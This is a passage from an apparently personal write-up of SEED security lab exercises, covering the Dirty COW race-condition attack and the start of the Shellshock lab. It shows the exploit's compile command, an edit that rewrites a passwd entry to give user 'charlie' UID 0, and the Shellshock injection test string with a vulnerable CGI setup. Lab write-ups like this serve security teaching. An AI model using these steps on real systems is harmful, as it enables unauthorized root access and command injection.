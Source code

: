 Compile:

```bash
gcc -o cow_attack cow_attack.c -pthread
```

Practice:

![Screen Shot 2018-11-27 at 6.36.10 PM.png]({{ site.url }}/images/seed/7B2EFD0156D9810C3F61669D14698FE9.png)

![Screen Shot 2018-11-27 at 6.42.27 PM.png]({{ site.url }}/images/seed/A685AB51289C6D2E5D0C2445A90099D7.png)

### 041 Task 2 Modify the Password File to Gain the Root Privilege

```c
// modify: from
char *position = strstr(map, "charlie:x:1001:1002");
// modify: to
char *content= "charlie:x:0000:1002";
```

![Screen Shot 2018-11-27 at 6.51.42 PM.png]({{ site.url }}/images/seed/A33088C86313A33C4586BC1D430B7006.png)

## 05 Shellshock Attack Lab

http://www.cis.syr.edu/~wedu/seed/Labs_16.04/Software/Shellshock/

### 050 Task 1 Experimenting with Bash Function

In SEED Ubuntu 16.04, we can have a try:

```bash
# vulnerable version of bash
env x='() { :;}; echo vulnerable' /bin/bash_shellshock -c "echo this is a test "
# patched version of bash
env x='() { :;}; echo vulnerable' /bin/bash -c "echo this is a test "
```

![Screen Shot 2018-11-27 at 8.11.41 PM.png]({{ site.url }}/images/seed/ED4E55938E1BD3CCEE6A3B36C5F9A516.png)

### 051 Task 2 Setting up CGI programs

```bash
#!/bin/bash_shellshock
# /usr/lib/cgi-bin/myprog.cgi
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

```bash
sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
curl http://localhost/cgi-bin/myprog.cgi
```

